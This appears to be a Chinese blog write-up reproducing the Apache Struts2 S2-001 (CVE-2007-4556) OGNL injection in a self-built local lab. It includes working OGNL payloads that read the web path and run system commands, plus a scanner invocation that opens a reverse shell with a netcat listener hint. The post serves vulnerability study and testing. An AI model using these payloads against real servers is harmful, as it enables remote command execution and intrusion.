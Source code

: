 ```yaml
---
title: S2-001复现
copyright: true
tags:
  - CVE-2007-4556
  - Struts2
categories:
  - 漏洞复现
abbrlink: 41ac148a
date: 2021-03-27 05:49:04
---
```


![image-20210310000217881](https://z3.ax1x.com/2021/03/27/6x3rhF.png)
<!--more-->

# S2-001漏洞复现

## 漏洞详情

​	https://cwiki.apache.org/confluence/display/WW/S2-001

​	由于OGNL表达式的递归执行，造成了命令执行。

## 环境搭建

​	Kali Linux

​	IntelliJ Idea 2020.3.2

​	Apache-Tomcat/9.0.43

​	Java Open JDK 8

先给IDEA装struts 2插件：

![image-20210302141314465](https://z3.ax1x.com/2021/03/27/6x3Efe.png)


新建项目：

![image-20210302141636891](https://z3.ax1x.com/2021/03/27/6x3eld.png)

下载strust2 jar，解压提取lib内的jar。

https://archive.apache.org/dist/struts/binaries/struts-2.0.1-all.zip

```bash
commons-logging-1.0.4.jar
freemarker-2.3.4.jar
ognl-2.6.7.jar
struts2-api-2.0.1.jar
struts2-core-2.0.1.jar
xwork-2.0-beta-1.jar
```

在 `WEB-INF` 下创建 `lib` 目录，放入所需的jar包。

导入依赖包到项目中：

​		左键IDEA左上角，文件-项目结构-模块 添加依赖的jar，勾选然后确定。

![image-20210302143235678](https://z3.ax1x.com/2021/03/27/6x3ZSH.png)

`src` 下新建 `com.demo.action` 包，包下再新建 `LoginAction`  java类，代码如下：

```java
package com.demo.action;

import com.opensymphony.xwork2.ActionSupport;

public class LoginAction extends ActionSupport {
    private String username = null;
    private String password = null;


    public String getUsername() {
        return this.username;
    }

    public String getPassword() {
        return this.password;
    }

    public void setUsername(String username) {
        this.username = username;
    }

    public void setPassword(String password) {
        this.password = password;
    }

    public String execute() throws Exception {
        if ((this.username.isEmpty()) || (this.password.isEmpty())) {
            return "error";
        }
        if ((this.username.equalsIgnoreCase("admin"))
                && (this.password.equals("admin"))) {
            return "success";
        }
        return "error";
    }
}
```

`src` 目录下新建 `struts.xml` ，内容如下：

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE struts PUBLIC
        "-//Apache Software Foundation//DTD Struts Configuration 2.0//EN"
        "http://struts.apache.org/dtds/struts-2.0.dtd">
<struts>
    <package name="S2-001" extends="struts-default">
        <action name="login" class="com.demo.action.LoginAction">
            <result name="success">welcome.jsp</result>
            <result name="error">index.jsp</result>
        </action>
    </package>
</struts>
```

`web` 目录下新建 `welcome.jsp` 文件,内容如下：

```jsp
<%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8" %>
<%@ taglib prefix="s" uri="/struts-tags" %>
<!DOCTYPE html PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN" "http://www.w3.org/TR/html4/loose.dtd">
<html>
<head>
    <meta http-equiv="Content-Type" content="text/html; charset=UTF-8">
    <title>S2-001</title>
</head>
<body>
<p>Hello <s:property value="username"></s:property></p>
</body>
</html>
```

修改 `index.jsp` 文件内容：

```jsp
<%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8" %>
<%@ taglib prefix="s" uri="/struts-tags" %>
<!DOCTYPE html PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN" "http://www.w3.org/TR/html4/loose.dtd">
<html>
<head>
    <meta http-equiv="Content-Type" content="text/html; charset=UTF-8">
    <title>S2-001</title>
</head>
<body>
<h2>S2-001 Demo</h2>
<p>link: <a href="https://cwiki.apache.org/confluence/display/WW/S2-001">https://cwiki.apache.org/confluence/display/WW/S2-001</a>
</p>
<s:form action="login">
    <s:textfield name="username" label="username"/>
    <s:textfield name="password" label="password"/>
    <s:submit></s:submit>
</s:form>
</body>
</html>
```

修改 `web.xml` 文件内容：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<web-app xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns="http://xmlns.jcp.org/xml/ns/javaee"
         xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee http://xmlns.jcp.org/xml/ns/javaee/web-app_3_1.xsd"
         id="WebApp_ID" version="3.1">
    <display-name>S2-001 Example</display-name>
    <filter>
        <filter-name>struts2</filter-name>
        <filter-class>org.apache.struts2.dispatcher.FilterDispatcher</filter-class>
    </filter>
    <filter-mapping>
        <filter-name>struts2</filter-name>
        <url-pattern>/*</url-pattern>
    </filter-mapping>
    <welcome-file-list>
        <welcome-file>index.jsp</welcome-file>
    </welcome-file-list>
</web-app>
```

运行/调试配置，配置好jdk/tomcat所在目录：

![image-20210302150359586](https://z3.ax1x.com/2021/03/27/6x3AYD.png)

构建项目然后运行（可以选择D bug模式），访问web页面：

![image-20210302151129812](https://z3.ax1x.com/2021/03/27/6x3Kmt.png)



## 复现attack

​	验证，password输入`%{6+6}` 提交执行返回 `12`,即表示OGNL表达式被执行，漏洞存在。

![image-20210309225131476](https://z3.ax1x.com/2021/03/27/6x3M0P.png)

使用以下Payload执行下命令查看下web路径？

```java
%{#req=@org.apache.struts2.ServletActionContext@getRequest(),#response=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#response.println(#req.getRealPath('/')),#response.flush(),#response.close()}
```

![image-20210309232849553](https://z3.ax1x.com/2021/03/27/6x3QTf.png)

![image-20210309233014237](https://z3.ax1x.com/2021/03/27/6x31k8.png)

OWASP ZAP用不习惯，直接用 `HackBar` 吧：

```java
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"id"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```

![image-20210309233928172](https://z3.ax1x.com/2021/03/27/6x3nOI.png)

使用工具

https://github.com/HatBoy/Struts2-Scan

```bash
python3 Struts2Scan.py -u http://localhost:8080/S2_001_war_exploded/login.action -d "name=admin&password={exp}" -n "S02-001" --exec
```

漏洞存在，但不支持利用？

![image-20210310000217881](https://z3.ax1x.com/2021/03/27/6x3rhF.png)

修改脚本1502行即可正常运行：
`if name not in s2_list:` 为 ` if name not in s2_dict:`

反弹shell

```bash
┌──(kali㉿kali)-[~/Tools/Sturts2/Struts2-Scan]
└─$ python3 Struts2Scan.py -u http://localhost:8080/S2_001_war_exploded/login.action -n S2-001 --reverse 192.168.176.1:8000  

 ____  _              _       ____    ____                                                                              
/ ___|| |_ _ __ _   _| |_ ___|___ \  / ___|  ___ __ _ _ __                                                              
\___ \| __| '__| | | | __/ __| __) | \___ \ / __/ _` | '_ \                                                             
 ___) | |_| |  | |_| | |_\__ \/ __/   ___) | (_| (_| | | | |                                                            
|____/ \__|_|   \__,_|\__|___/_____| |____/ \___\__,_|_| |_|                                                            
                                                                                                                        
                                      Author By HatBoy                                                                  
                                                                                                                        
[*] 请在反弹地址处监听端口如: nc -lvvp 8080

```

![image-20210310002603451](https://z3.ax1x.com/2021/03/27/6x3BkT.png)

## 漏洞分析

​	略



